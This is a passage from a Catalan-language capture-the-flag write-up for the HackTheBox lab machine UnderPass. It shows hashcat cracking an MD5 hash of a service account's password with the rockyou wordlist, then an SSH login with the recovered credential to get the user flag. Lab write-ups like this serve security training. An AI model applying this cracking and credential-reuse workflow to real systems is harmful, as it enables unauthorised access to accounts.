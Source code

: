 ````
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

412dd4759978acfcc81deab01b382403:underwaterfriends        
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 412dd4759978acfcc81deab01b382403
Time.Started.....: Fri Dec 27 14:13:40 2024 (2 secs)
Time.Estimated...: Fri Dec 27 14:13:42 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1198.8 kH/s (0.20ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2984448/14344385 (20.81%)
Rejected.........: 0/2984448 (0.00%)
Restore.Point....: 2983680/14344385 (20.80%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: undral_5 -> underfalsehope
Hardware.Mon.#1..: Util: 83%

Started: Fri Dec 27 14:12:39 2024
Stopped: Fri Dec 27 14:13:44 2024

````

Després de vàris intents, el problema que estava tenint era que no posava la "M" majúscula de l'usuari ``svcMosh``. Un cp he posat l'usuari de forma correcte ja he pogut accedir a la màquina per ssh amb les credencials de l'usuari que hem trobat i amb això obtenir la user flag:

 ```

┌──(kali㉿kali)-[~]
└─$ ssh svcMosh@underpass.htb
svcMosh@underpass.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Dec 29 10:16:01 AM UTC 2024

  System load:  0.0               Processes:             230
  Usage of /:   93.1% of 3.75GB   Users logged in:       1
  Memory usage: 17%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%

  => / is using 93.1% of 3.75GB


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

 ```